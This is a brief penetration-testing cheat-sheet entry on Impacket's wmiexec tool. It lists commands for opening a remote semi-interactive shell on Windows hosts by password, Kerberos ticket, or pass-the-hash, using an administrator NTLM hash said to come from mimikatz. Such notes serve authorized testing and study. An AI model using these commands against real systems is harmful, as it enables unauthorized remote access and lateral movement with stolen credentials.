 ```yaml
---
tags:
---
```

# wmiexec

Executes a semi-interactive shell using WMI.

Requires `ADMIN$` share to be available. Only works against Active Directory domain accounts and the built-in local administrator account.

## Capabilities

```bash
# Authenticate with credentials
impacket-wmiexec '$DOMAIN/username:password@$IP'

# Authenticate with kerberos
impacket-wmiexec $DOMAIN/username@$IP -k -no-pass

# Authenticate with hash
impacket-wmiexec -hashes :7a38... username@$IP
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38... username@$IP
```

Note: In the hash example, we fill in the left side of the colon with zeros, and the right is the administrators NTLM hash pulled from `mimikatz`
